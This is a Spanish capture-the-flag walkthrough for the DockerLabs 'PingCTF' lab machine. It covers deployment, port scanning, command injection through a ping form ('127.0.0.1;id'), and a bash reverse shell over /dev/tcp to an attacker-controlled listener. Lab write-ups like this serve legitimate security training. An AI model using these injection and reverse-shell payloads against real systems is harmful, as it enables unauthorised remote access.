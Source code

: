 ## DESCARGA Y MONTAJE DE MÁQUINA VICTIMA

Nos dirigimos a la página:

![Nmap Scan](images/PingCTF/1.png)

```bash
https://dockerlabs.es/
```

y alli a al enlace de la máquina vulnerable llamada `PingCTF` del autor: `borazuwarah`:

```bash
https://mega.nz/file/jVdVyYYK#Cl7k02bD1IHF6_j1tljf497k4l7uPq2QxzJQvs1tqoY
```

![Nmap Scan](images/PingCTF/2.png)


movemos la descarga a la carpeta de trabajo con:

```bash
mv /ruta_a_mi_carpeta_de_trabajo
```
descargamos con un unzip el contenido comprimido con zip:

```bash
unzip PingCTF.zip
```

y ejecutamos este comando para subir la máquina vulnerable

```bash
sudo bash auto_deploy.sh ping_ctf.tar
```



![Nmap Scan](images/PingCTF/3.png)


Ya tenemos la direccón de la máquina vulnerable--->`172.17.0.2`



## FASE DE ENUMERACIÓN

Realizaremos un escaneo de los puertos que tiene abiertos la máquina vulnerable, y si los tiene, vamos a ver los servicios que corren en ellos y sus versiones:

```bash
 sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -v --open 172.17.0.2 -oN puertosYservicios
```

![Nmap Scan](images/PingCTF/4.png)


Solamente esta abierto el puerto 80 donde corre http, sin más vamos a lanzar un whatweb por si nos reportara algo:


```bash
whatweb 172.17.0.2 | tee whatweb
```

![Nmap Scan](images/PingCTF/5.png)


Solamente sacamos en claro que coore un apache 2.4.58

Con todo esto nos vamos a la página web : `http://172.17.0.2`

Vemos un panel, con el cual podemos comprobar la conectividad con una ip, pruebo algunas y no da resultado, asi que pruebo a inyectar un comando con una ip seguida de punto y coma
y un comando:

```bash
127.0.0.1;id
```

![Nmap Scan](images/PingCTF/6.png)


Y parece que da resultado:

![Nmap Scan](images/PingCTF/7.png)

Vamos a crear una reverse shell y enviarla; en mi caso ejecuto este comando:

```bash
bash -c "bash -i >& /dev/tcp/<TU IP>/<PUERTO EN ESCUCHA> 0>&1"
```

podeis encontrar las reverse shell en:

```bash
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
https://www.revshells.com/
```

nos ponemos en nuestra máquina kali a la escucha por el puerto 445:

```bash
sudo nc -lvnp 445
```

e introducimos y ejecutamos en la página web:

```bash
127.0.0.1;bash -c "bash -i >& /dev/tcp/172.17.0.1/445 0>&1"
```

Y estamos dentro

![Nmap Scan](images/PingCTF/9.png)

